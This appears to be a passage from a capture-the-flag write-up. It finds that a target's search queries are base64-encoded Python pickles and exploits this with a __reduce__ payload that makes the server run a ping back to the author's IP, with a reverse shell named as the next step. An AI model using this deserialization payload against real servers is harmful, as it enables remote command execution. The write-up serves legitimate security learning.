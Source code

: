 Lets decode it.

{% code overflow="wrap" lineNumbers="true" %}
```python
import pickle
import base64

encoded_cipher = "gASVCQAAAAAAAACMBXB3bmVklC4="
decoded_cipher = base64.b64decode(encoded_cipher)

print(f"Decoded b64 cipher : {decoded_cipher}")

unpickled_data = pickle.loads(decoded_cipher)
print(f"Unpickled data : {unpickled_data}")
```
{% endcode %}

Outputs

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So any search request we make is basically Serialized and base64 encoded and then sent to the server, which then deserializes the query and process a response for us. Meaning we can send a malicious serialized payload as search query in order to get RCE.

To prove this, we do a simple ping, ie; we make the server send a ping to us, if we get a ping from the server then we know the server can reach us and we can craft a payload to get reverse shell.

Googled Python Serialization exploits and landed on this [blogpost](https://davidhamann.de/2020/04/05/exploiting-python-pickle/).

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('ping 10.18.88.214 -c2')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
    
    
# outputs
gASVMAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjBVwaW5nIDEwLjE4Ljg4LjIxNCAtYzKUhZRSlC4=
```
